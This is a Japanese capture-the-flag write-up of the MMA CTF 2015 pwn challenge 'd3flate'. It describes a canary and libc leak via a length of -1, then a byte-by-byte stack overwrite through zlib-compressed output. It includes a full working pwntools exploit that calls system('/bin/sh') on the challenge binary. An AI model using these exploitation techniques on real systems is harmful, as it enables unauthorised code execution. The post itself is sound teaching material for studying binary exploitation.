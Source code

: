```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/09/mma-ctf-2015-d3flate/
date: "2016-09-09T15:08:55+09:00"
tags: [ "ctf", "writeup", "mmactf", "pwn", "zlib", "canary" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/d3flate-500" ]
---
```


# MMA CTF 2015: d3flate

解けないからwriteupを見たが、writeupにあった実装ではどれもzlibの計算が停止する気配がなかった。追加で頑張った。

## solution

全体の流れは単純。

1.  proof-of-workを解く
2.  長さに$-1$を指定してlibc baseとcanaryをleak
3.  以下を繰り返す
    1.   平文を送る
    2.   そのzlib圧縮結果のbofでstackを書き換える
4.  `Bye`と送って発火

proof-of-workは単純にやるしかない。
運が悪いとけっこうかかる。

stackのleakに関して。
長さに$-1$を指定すると、標準入力からの読み込みは実際には行われないが$255$文字読まれた扱いになる。
ここで、proof-of-workの際の関数によるcanary等が`$esp`より低位側に残されているので、これが読める。
proof-of-workが邪魔だからとbinaryを書き換えてnopで埋めていると、canaryが見つからずどうにもならなくなるので注意。

stackへの書き込みは、文字列`s`を送ると`zlib.compress(s)`が書き込まれる。
canaryやreturn先address等が書き変わるが、当然書き込む値は自由にはならない。
これは探索をする。平文となる`s`を`zlib.compress(s)`が要件を満たすまで生成し続ければよい。
乱数を突っ込めば圧縮できずにそのまま出てくるが、そのようなものは禁止されているので使えない。
ただし最低でも$12$byte (canary + system + `/bin/sh`)を書き込む必要があり、一括で書き込むのは難しい。
$1$byteずつ後ろから書き込むとよい。

## implementation

``` python
#!/usr/bin/env python2
import os
import time
import random
import zlib
import itertools
import hashlib
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

p = process('./d3flate')

salt = p.recvline().split('"')[1] # Send me a proof-of-work sha1("XXXXXXXX" || stripLF(sent)) = 123456xxx...
for witness in itertools.count():
    if witness % 100000 == 0:
        log.debug('witness: %d', witness)
    if hashlib.sha1(salt + str(witness)).hexdigest().startswith('123456'):
        break
p.sendline(str(witness))
p.recvline()

p.sendline('-1')
s = p.recv(int(p.recvline()))
s = zlib.decompress(s)
log.info('zlib decompressed:\n' + fiddling.hexdump(s))

libc = ELF('/lib/i386-linux-gnu/libc.so.6') # for my local environment
libc_base = u32(s[0xbc:][:4]) - (libc.symbols['fflush'] + 11)
canary = u32(s[0xc0:][:4])
log.info('libc base: %#x', libc_base)
log.info('canary: %#x', canary)
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search('/bin/sh\0'))
log.info('system  address: %#x', system)
log.info('/bin/sh address: %#x', binsh)

for base, value in [ (0x98, binsh), (0x90, system), (0x80, canary) ]:
    for offset, char in reversed(list(enumerate(p32(value)))):
        for i in itertools.count():
            s = chr(random.randint(0, 255)) * random.randint(30, 40) + os.urandom(base + offset + random.randint(- 10, 20))
            s = s[: 0x80] + '\x78\x9c' + s[0x82 :]
            s = zlib.compress(s)
            s = s[: base + offset + random.randint(-4, 4)] + char
            payload = ''
            z = zlib.decompressobj()
            while s:
                try:
                    payload += z.decompress(s, 1)
                    s = z.unconsumed_tail
                except zlib.error:
                    break
            s = zlib.compress(payload)
            if not s[base + offset :] == char:
                log.debug('trial %d: wrong value: %s != %s', i, repr(s[base + offset :]), repr(char))
                continue
            if not len(s) <= len(payload):
                log.debug('trial %d: wrong length: %d > %d', i, len(s), len(payload))
                continue
            if not len(payload) <= 255:
                log.debug('trial %d: too long payload: 255 < %d', i, len(payload))
                continue
            break
        log.info('payload:\n' + fiddling.hexdump(payload))
        log.info('zlib compressed:\n' + fiddling.hexdump(s))
        p.sendline(str(len(payload) - 256))
        p.sendline(payload)
        s = p.recv(int(p.recvline()))
        log.debug('zlib decompressed: %s\n' + fiddling.hexdump(zlib.decompress(s)))
        assert zlib.decompress(s) == payload
        assert s == zlib.compress(payload)

p.sendline('3')
p.sendline('Bye')

time.sleep(1)
p.sendline('id')
p.interactive()
```
